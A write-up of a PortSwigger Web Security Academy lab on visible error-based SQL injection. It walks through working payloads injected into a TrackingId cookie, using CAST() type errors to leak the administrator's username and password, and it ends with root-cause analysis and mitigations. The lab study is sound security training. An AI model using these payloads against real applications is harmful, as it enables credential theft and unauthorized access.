




# Visible Error-based SQL Injection

## Goal:
This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned. 

The database contains a different table called users, with columns called `username` and `password`. To solve the lab, find a way to leak the password for the `administrator` user, then log in to their account.

---

## Vulnerability Analysis

### Attack Vector Identification
- **Entry Point**: `TrackingId` cookie parameter
- **Vulnerability Type**: T1190.001 - SQL Injection: Visible Error-Based (CWE-89)
- **Security Flaws:**
    - User input is embedded directly into SQL queries
    - Application exposes verbose database error messages

### Vulnerability Assessment & Exploitation

**Initial Approach:**
- Intercepted HTTP requests using Burp Suite
- Identified tracking cookie as potential injection point
- Performed systematic input validation testing

**Step 1: Detecting Error Responses**

Injected a single quote:
```sql
'
```
HTTP/2 500 Internal Server Error



The application returned detailed database error message, which confirms unsanitized input is directly passed into the query and error messages are visible.

Injected escaped quote:
```sql
''
```
Response: HTTP/2 200 OK

This properly closes the string literal, indicating string-based injection is possible.

**Step 2: Using CAST() to Force Type Errors**

The SQL `CAST()` function converts one data type to another. In this case, it's used to force a type mismatch that triggers an error response, revealing sensitive database values.

Test payload:
```sql
' AND CAST((SELECT 1) AS int)--
```
Response: ERROR: argument of AND must be type boolean, not type integer

Refined payload:
```sql
' AND 1=CAST((SELECT 1) AS int)--
```
Response: HTTP/2 200 OK

As expected, this does not throw an error. The query now evaluates to TRUE (1=1) and returns a valid page.

**Step 3: Extracting the administrator Username**

```sql
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```



This gave an error, and the query appears to be truncated, likely due to a length restriction on the TrackingId cookie value.



Removing the existing TrackingId cookie value frees up space and did not give the "Unterminated string literal" error. However, since the username is a string and cannot be cast to an integer, the database throws a verbose error that leaks the first username in the users table — "administrator".

**Step 4: Extracting the administrator Password**

```sql
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```



This successfully leaked the administrator's password.

---

## Security Assessment

### Root Cause Analysis
- Application concatenates user input directly into SQL queries
- No input validation or sanitization implemented
- Verbose error messages are exposed to end users
- Parameterized queries (prepared statements) are not used

### Risk Assessment
| Category | Impact |
|----------|--------|
| Confidentiality | High – Sensitive user data exposed |
| Authentication | High – Credentials leaked |
| Information Disclosure | High – Database structure revealed |

---

## Mitigation

- Use parameterized queries (prepared statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/09-blind-sqli-conditional-responses.md#mitigation)

- Suppress verbose errors by configuring the application and database to log detailed errors internally and return generic error messages to users.

- Limit database permissions using the principle of least privilege.

---

## Reflection

This lab demonstrated how visible error-based SQL injection allows attackers to extract sensitive information by triggering verbose error responses. Using type mismatches with `CAST()` proved highly effective in forcing the database to reveal internal values, including usernames and passwords. The exercise highlights the critical importance of secure coding, proper error handling, and the principle of least privilege in database access.

---

## Notes

- `CAST()` is useful for error-based SQL injection because data type mismatches result in verbose errors.